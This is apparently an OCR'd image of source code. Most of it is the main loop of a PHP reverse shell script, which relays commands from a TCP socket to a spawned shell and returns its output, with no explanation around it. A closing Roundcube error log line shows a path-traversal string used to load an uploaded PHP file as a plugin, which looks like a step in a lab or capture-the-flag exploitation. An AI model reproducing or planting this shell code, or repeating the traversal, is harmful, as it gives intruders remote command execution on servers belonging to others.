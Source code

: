 printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	// Check for end of TCP connection
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	// Check for end of STDOUT
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	// Wait until a command is end down $sock, or some
	// command output is available on STDOUT or STDERR
	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	// If we can read from the TCP socket, send
	// data to process's STDIN
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	// If we can read from the process's STDOUT
	// send data down tcp connection
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	// If we can read from the process's STDERR
	// send data down tcp connection
	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}


[08-Apr-2022 17:55:26 +0000]: PHP Error: No plugin class ../../../../../../../../../var/www/html/oldmanagement/files/31234/papers found in /var/www/html/mastermailer/plugins/../../../../../../../../../var/www/html/oldmanagement/files/31234/papers/../../../../../../../../../var/www/html/oldmanagement/files/31234/papers.php in /var/www/html/mastermailer/program/lib/Roundcube/rcube_plugin_api.php on line 188 (GET /mastermailer/)